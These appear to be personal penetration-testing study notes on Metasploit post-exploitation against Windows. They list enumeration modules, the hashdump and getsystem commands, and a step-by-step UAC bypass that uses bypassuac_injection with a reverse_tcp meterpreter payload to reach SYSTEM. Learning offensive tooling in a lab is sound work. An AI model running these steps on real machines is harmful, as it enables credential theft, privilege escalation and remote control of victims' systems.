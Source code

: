### modules & meterpreter fundamentals

* post/windows/manage/migrate
* post/windows/gather/win_privs
* post/windows/gather/enum_logged_one_users
* post/windows/gather/checkvm
* post/windows/gather/enum_applications
* post/windows/gather/enum_av_excluded
* post/windows/gather/enum_computers
* post/windows/gather/enum_patches (sometime fails)
    * incase of failure
        * shell
            * systeminfo
* post/windows/gather/enum_shares
* post/windows/manage/enable_rdp

meterpreter cmds:

* hashdump
* getsystem: try to priv escalation to NT AUTH SYSTEM
* migrate <id>

msfconsole:

* loot: will reveal all post recon data

### Windows Privilege Escalation: bypassing User Account Control (UAC)

* basics of UAC are already covered in Windows Exploitation module
* [[link here]]

provided we have a meterpreter session:

* getuid
    * VICTIM/admin
* getsystem
    * all automated TTPs fails
* getprivs
    * did not reveal many details
* inorder for UAC bypass to work, the compromised users has to be in Administrators local group
    * shell
        * net users
            * will give all the user accounts
        * net localgroup administrators
            * admin is a part of Administrators group, which is a pre-req for UAC bypass
* search bypassuac
    * use exploit/windows/local/bypassuac_injection
        * set payload windows/x64/meterpreter/reverse_tcp (x64 is required)
        * set LPORT 1234 (diff port from session 1)
        * run
            * fails with platform mismatch error
        * set TARGET Windows\ x64
        * run (SUCCESS)
        * a different meterpreter session is opened with UAC disabled
        * getsystem (SUCCESS)
            * elevated privs obtained, because UAC was disabled

